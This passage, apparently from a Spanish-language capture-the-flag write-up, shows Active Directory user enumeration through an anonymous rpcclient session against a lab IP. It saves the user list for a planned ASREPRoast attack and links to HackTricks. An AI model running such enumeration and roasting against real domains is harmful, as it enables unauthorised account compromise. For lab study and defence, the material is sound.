 ```bash
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

- Y bueno tenemos un listado potencial de usuarios vamos a ponerlos en una lista y probar un **ASREPRoast** <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast>.

```bash
➜  nmap rpcclient -N -U '' 10.129.96.155 -c enumdomusers | grep -oP '\[\D*?\]' | tr -d '[]' > users.txt
➜  nmap cat users.txt
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```
